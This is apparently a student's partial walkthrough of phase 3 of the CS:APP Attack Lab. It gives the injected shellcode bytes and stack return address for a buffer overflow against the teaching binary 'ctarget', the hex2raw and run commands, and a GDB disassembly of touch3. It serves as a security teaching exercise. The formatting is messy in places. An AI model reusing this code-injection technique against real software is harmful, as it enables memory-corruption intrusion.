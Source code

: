 
6. add  the rsp address to exploit3_.d
(低地址)
c7 44 24 2c 39 37 66 61 
c7 44 24 28 35 39 62 39 
c6 44 24 30 00 48 c7 c7 
a0 dc 61 55 68 fa 18 40 
00 c3 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
(高地址)

getbuf stack frame should be:
00 00 00 55 61 dc 78    -> rsp 地址       
+-----------------------------+ <-- 高地址（栈底方向）
00 00 00 00 00 00 00 00                  	
00 00 00 00 00 00 00 00 
00 00 00 00 00  
00 00 00 
                404 c7
+-----------------------------+ <-- 低地址 当前栈顶（%rsp 指向 buf 起始地址）

1. convert exploit3_.d to raw format
```shell
cat exploit3_.d | ./hex2raw > raw3.txt
```

##  Run progrom with inject assemble code(exploit code) 

```shell
./ctarget -q < raw3.txt


# GDB
gdb ctarget
```GDB
(gdb) b getbuf
(gdb) b touch3
(gdb) run -q < raw3.txt
(gdb) disas
(gdb) n
(gdb) disas
Dump of assembler code for function touch3:
=> 0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   0x000000000040191a <+32>:    mov    %rbx,%rdx
   0x000000000040191d <+35>:    mov    $0x403138,%esi
   0x0000000000401922 <+40>:    mov    $0x1,%edi
   0x0000000000401927 <+45>:    mov    $0x0,%eax
   0x000000000040192c <+50>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:    mov    $0x3,%edi
   0x0000000000401936 <+60>:    callq  0x401c8d <validate>
   0x000000000040193b <+65>:    jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:    mov    %rbx,%rdx
   0x0000000000401940 <+70>:    mov    $0x403160,%esi
   0x0000000000401945 <+75>:    mov    $0x1,%edi
   0x000000000040194a <+80>:    mov    $0x0,%eax
   0x000000000040194f <+85>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:    mov    $0x3,%edi
   0x0000000000401959 <+95>:    callq  0x401d4f <fail>
```